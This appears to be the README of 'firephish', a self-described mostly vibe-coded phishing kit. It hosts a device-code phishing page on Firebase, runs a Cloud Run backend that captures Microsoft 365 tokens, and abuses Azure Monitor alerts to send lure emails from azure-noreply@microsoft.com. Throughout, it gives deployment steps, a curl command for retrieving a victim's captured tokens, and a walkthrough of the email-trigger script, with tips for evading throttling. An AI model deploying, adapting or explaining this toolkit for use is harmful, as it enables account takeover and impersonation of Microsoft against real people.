

# firephish

repos used: https://github.com/f-bader/TokenTacticsV2 (for handling device code APIs) https://github.com/elastic/detection-rules/issues/5877 (original inspiration for leveraging monitor alerts)      
       
Minimal mostly vibe coded Eviltoken like implentation of Firebase-hosted device-code phishing website using Azure Monitor alerts to send emails from `azure-noreply@microsoft.com`.

## npm scripts

| Command | What it does |
|---|---|
| `npm run setup:env` | copies `.env.example` → `.env` so you can fill it in |
| `npm run login:firebase` | `firebase login` + `firebase use --add` (writes `.firebaserc`) |
| `npm run login:gcloud` | `gcloud auth login` + Docker auth helper |
| `npm run login:azure` | `az login` |
| `npm run deploy:container` | builds `container/`, pushes to GCR, deploys Cloud Run, writes `CLOUD_RUN_URL` back to `.env` |
| `npm run deploy:firebase` | renders `public/config.js` from `.env` and deploys `public/` to Firebase Hosting |
| `npm run deploy` | runs `deploy:container` then `deploy:firebase` |
| `npm run phish -- <email>` | provisions a disposable Azure resource group + activity-log alert that fires an email to the target |

---

## Layout

```
FirePhish/
├── public/
│   ├── index.html        # html site
│   ├── css/styles.css    # css styles
│   └── src/app.js        # device-code stream handler + screen flow
├── scripts/
│   ├── build-config.js   # writes public/config.js from .env
│   └── phish.sh          # azure monitor email-alert trigger
├── container/
│   ├── Dockerfile        # node + powershell runtime image
│   ├── server.js         # SSE wrapper exposing /code with bearer auth
│   ├── get-code.ps1      # device-code request + streamed status output
│   └── package.json      # backend deps
├── firebase.json
├── package.json
└── .env.example
```

---

## Prerequisites (Linux / macOS)

You'll need the following installed:

- **Node.js 18+** — runs the build script and `firebase-tools`.
- **Firebase CLI** — for hosting and emulator.
- **Azure CLI 2.85+** — for the phish trigger. macOS 13+ required for the official build.
- **A Firebase project** — free Spark plan is enough.
- **An active Azure subscription** — the phish script provisions a disposable resource group, so any subscription where you have Contributor on a sub or RG works. Standard Azure Monitor pricing applies (negligible for short runs).
- **A streaming `/code` backend** — landing page expects `text/event-stream` chunks shaped `data: {"line": "..."}` with bearer auth. Included in this repo under `container/` (Docker + Node SSE wrapper around `get-code.ps1`).

### macOS install

```sh
brew install node azure-cli
npm install -g firebase-tools
```

### Linux install (Debian / Ubuntu)

```sh
# node 20 LTS
curl -fsSL https://deb.nodesource.com/setup_20.x | sudo -E bash -
sudo apt install -y nodejs

# azure cli (Microsoft script)
curl -sL https://aka.ms/InstallAzureCLIDeb | sudo bash

# firebase
sudo npm install -g firebase-tools
```

For other distros, see Microsoft's [Azure CLI install docs](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli) and Firebase's [hosting quickstart](https://firebase.google.com/docs/hosting/quickstart).

---

## First-time setup

From inside `FirePhish/`. Each step has its own `npm run`.

### 1. Install local deps

```sh
npm install
```

Pulls `dotenv` for `build-config.js`.

### 2. Generate `.env`

```sh
npm run setup:env
$EDITOR .env
```

Copies `.env.example` → `.env` (no-op if `.env` already exists). Fill in:

| Var | Source |
|---|---|
| `API_KEY` | bearer token shared between landing page and Cloud Run. `openssl rand -hex 32` is fine. |
| `GCP_PROJECT` | your GCP project ID — same one selected with `gcloud config set project ...` |
| `GCP_REGION` | Cloud Run region (e.g. `us-central1`) |
| `LANDING_URL` | Firebase Hosting URL once deployed (e.g. `<project-id>.web.app`) — used in the phish email subject |
| `TARGET_URL` | where the "Verify" button sends the victim. Default `https://microsoft.com/devicelogin` is correct for device-code flow. |
| `CLOUD_RUN_URL` | leave the placeholder — `npm run deploy:container` writes the real URL back into `.env` for you |

### 3. Authenticate with Firebase

```sh
npm run login:firebase
```

Runs `firebase login` then `firebase use --add`. The `--add` step lists every Firebase project on your Google account; pick one and give it an alias (`default` is fine). Writes `.firebaserc` in the repo root, scoping all subsequent `firebase` commands. The file is gitignored — every fork starts clean and runs this step themselves.

If you don't have a Firebase project yet, create one at [console.firebase.google.com](https://console.firebase.google.com), then come back.

### 4. Authenticate with GCP

```sh
npm run login:gcloud
```

Runs `gcloud auth login` and configures Docker for GCR pushes. Make sure the active project matches `GCP_PROJECT` in your `.env`:

```sh
gcloud config set project <your-gcp-project-id>
```

### 5. Authenticate with Azure

```sh
npm run login:azure
```

Opens a browser for SSO. SSH session? Use `az login --use-device-code`.

If you have multiple subscriptions, set the active one:

```sh
az account list -o table
az account set --subscription "<id-or-name>"
```

---

## First deploy

After steps 1–5 above, two commands ship the whole thing — or one if you prefer:

### Option A — one shot

```sh
npm run deploy
```

Runs `deploy:container` then `deploy:firebase` back-to-back.

### Option B — step by step

#### 6. Deploy the container backend

```sh
npm run deploy:container
```

Builds `container/` → pushes to `gcr.io/$GCP_PROJECT/code-service` → deploys to Cloud Run in `$GCP_REGION` with `API_KEY` and the bundled TokenTacticsV2 `PWSH_CMD` set as env vars. On success it writes `CLOUD_RUN_URL=<service-url>/code` back into your `.env` so the next step picks it up automatically.

The service is deployed `--allow-unauthenticated` because the browser calls it directly; access is gated by the bearer token in `API_KEY`. `--min-instances=1` keeps `/app/logs/response.json` warm between requests on the same instance so the captured token survives.

#### 7. Deploy the landing page

```sh
npm run deploy:firebase
```

Runs `node scripts/build-config.js` (writes `public/config.js` from `.env`) then `firebase deploy --only hosting`. The CLI prints your hosting URL (`https://<project-id>.web.app`). If `LANDING_URL` in `.env` doesn't match, update it before sending any phish — the email subject is built from that string.

---

## Deploy the container backend (manual / other hosts)

If you'd rather drive Cloud Run by hand, or deploy somewhere else, here's what the script wraps.

### Env vars the backend reads

| Var | Purpose |
|---|---|
| `PORT` | listen port (Cloud Run injects `8080`) |
| `API_KEY` | bearer token; must match `API_KEY` in the landing page's `.env` |
| `PWSH_CMD` | inline pwsh that drives TokenTacticsV2; the deploy script sets this for you |

### Cloud Run (manual)

```sh
gcloud builds submit ./container --tag gcr.io/<your-project>/code-service
gcloud run deploy code-service \
  --image gcr.io/<your-project>/code-service \
  --region <region> \
  --platform managed \
  --allow-unauthenticated \
  --port 8080 \
  --min-instances 1 \
  --env-vars-file env.yaml
```

Where `env.yaml` contains `API_KEY` and `PWSH_CMD` — see `scripts/deploy-container.sh` for the exact `PWSH_CMD` block (TokenTacticsV2 device-code flow, no variable assignment so the device-code message reaches stdout).

### Other hosts

Any platform that runs a container with HTTPS and env vars works (Fly, Render, ECS, a self-hosted box behind a reverse proxy). The image listens on `$PORT` and needs both `API_KEY` and `PWSH_CMD` set.

---

## Local testing (no deploy)

```sh
node scripts/build-config.js
firebase emulators:start --only hosting --project demo-test
```

Serves at `http://localhost:5000`. The `--project demo-test` keeps it emulator-only — no Firebase project needs to be linked, no charges, no risk of hitting prod.

**Caveat:** at `localhost`, `app.js` takes its `IS_LOCAL` path and tries `/api/code`, which the Firebase emulator doesn't proxy to anything by default. CSS, screen transitions, copy button — all those work. The device-code fetch will 404 unless you either:

- Deploy to Firebase first (then test on the live URL), **or**
- Run the `container/` backend locally and flip `const IS_LOCAL = false;` in `public/src/app.js` to point at it.

---

## Retrieving captured tokens

After the victim authenticates, the token JSON is written inside the container at `/app/logs/response.json`. Pull it with the bearer token:

```sh
curl -H "Authorization: Bearer $API_KEY" https://<your-cloud-run-url>/logs
```

`--min-instances=1` (set by `deploy:container`) keeps the file warm between requests on the same instance.

---


## Send the phishing email

```sh
npm run phish -- victim@example.com
```

What the script does:

1. Deletes any prior `MS365` resource group (clean slate)
2. Creates `MS365` in `eastus`
3. Attaches an action group with the target email as recipient
4. Creates an activity-log alert on `Microsoft.Resources/tags/write`
5. Sleeps 90s for the rule to warm up (Azure activity-log alerts have a ramp-up window before they evaluate the event stream)
6. Writes a tag on the RG to fire the alert
7. Sleeps 5 min for Azure to deliver the email
8. Deletes the RG

The email arrives from `azure-noreply@microsoft.com` with subject pulled from `LANDING_URL`.

> **First-time recipient note:** the *first* time any address is added to an action group, Azure sends a one-time confirmation email separately ("You've been added to..."). The phishing email arrives after that, once the warm-up + tag write fires the rule. On subsequent runs to the same address, only the alert email goes out.

---

## Tunables

- `LANDING_URL` (env) — interpolated into the alert subject. Defaults to a placeholder if unset.
- Everything else (`RG_NAME`, `ACTION_GROUP_NAME`, `LOCATION`, sleep durations) is hardcoded in `phish.sh` — edit the script directly if you need to change them.

---

## Troubleshooting

**`firebase emulators:start` fails with "No currently active project"**
Run `firebase use --add` (one-time), or pass `--project demo-test` for emulator-only use.

**Email never arrives, but the script ran cleanly**
Three usual suspects:
- Confirmation email is in spam — check there first if it's a new recipient.
- Activity log alert evaluation is async; if the script's 5-min cooldown wasn't enough (rare), increase the final `sleep 300` in `phish.sh`.
- Azure throttles action-group emails at 100/hr per address — silent drop. If you've been hammering the same address during testing, wait an hour.

**`/api/code` 404 in browser console during local emulator test**
Expected — see "Local testing" caveat above. Deploy or flip `IS_LOCAL` to bypass.

---

## Examples

action group email


What the target sees in their inbox — sender is the legitimate `azure-noreply@microsoft.com`, signed and TLS-encrypted by `microsoft.com`:



Opened email body — the alert subject (containing your `LANDING_URL`) is rendered as a clickable link inside Microsoft's normal Azure Monitor alert template:


Once the target clicks through, here's the full Firebase landing-page workflow — landing screen → device code revealed → copy + verify → Microsoft's real device-code prompt where the victim pastes it:


 
